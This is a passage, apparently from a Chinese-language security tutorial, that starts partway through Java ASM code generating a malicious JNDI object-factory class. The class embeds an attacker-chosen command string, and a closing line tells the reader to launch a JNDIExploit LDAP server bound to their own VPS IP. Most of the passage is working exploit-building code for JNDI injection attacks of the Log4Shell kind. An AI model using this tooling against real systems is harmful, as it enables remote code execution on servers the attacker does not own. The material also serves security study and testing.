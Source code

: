 ```php
        mv.visitMaxs(0, 4);
        mv.visitEnd();
    }
    {
        mv = cw.visitMethod(ACC_PUBLIC, "getObjectInstance", "(Ljava/lang/Object;Ljavax/naming/Name;Ljavax/naming/Context;Ljava/util/Hashtable;)Ljava/lang/Object;", "(Ljava/lang/Object;Ljavax/naming/Name;Ljavax/naming/Context;Ljava/util/Hashtable<**>;)Ljava/lang/Object;", new String[]{"java/lang/Exception"});
        mv.visitCode();
        Label l0 = new Label();
        mv.visitLabel(l0);
        mv.visitLineNumber(43, l0);
        mv.visitTypeInsn(NEW, "java/lang/Object");
        mv.visitInsn(DUP);
        mv.visitMethodInsn(INVOKESPECIAL, "java/lang/Object", "<init>", "()V", false);
        mv.visitInsn(ARETURN);
        Label l1 = new Label();
        mv.visitLabel(l1);
        mv.visitLocalVariable("this", "L" + className + ";", null, l0, l1, 0);
        mv.visitLocalVariable("obj", "Ljava/lang/Object;", null, l0, l1, 1);
        mv.visitLocalVariable("name", "Ljavax/naming/Name;", null, l0, l1, 2);
        mv.visitLocalVariable("nameCtx", "Ljavax/naming/Context;", null, l0, l1, 3);
        mv.visitLocalVariable("environment", "Ljava/util/Hashtable;", "Ljava/util/Hashtable<**>;", l0, l1, 4);
        mv.visitMaxs(2, 5);
        mv.visitEnd();
    }
    {
        mv = cw.visitMethod(ACC_STATIC, "<clinit>", "()V", null, null);
        mv.visitCode();
        Label l0 = new Label();
        mv.visitLabel(l0);
        mv.visitLineNumber(17, l0);
        mv.visitLdcInsn(cmd);
        mv.visitFieldInsn(PUTSTATIC, className, "cmd", "Ljava/lang/String;");
        mv.visitInsn(RETURN);
        mv.visitMaxs(1, 0);
        mv.visitEnd();
    }
    cw.visitEnd();

    bytes = cw.toByteArray();

}
```

编译好程序后，就可以用命令开启 ldap 服务：

```php
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i your-vps-ip
```
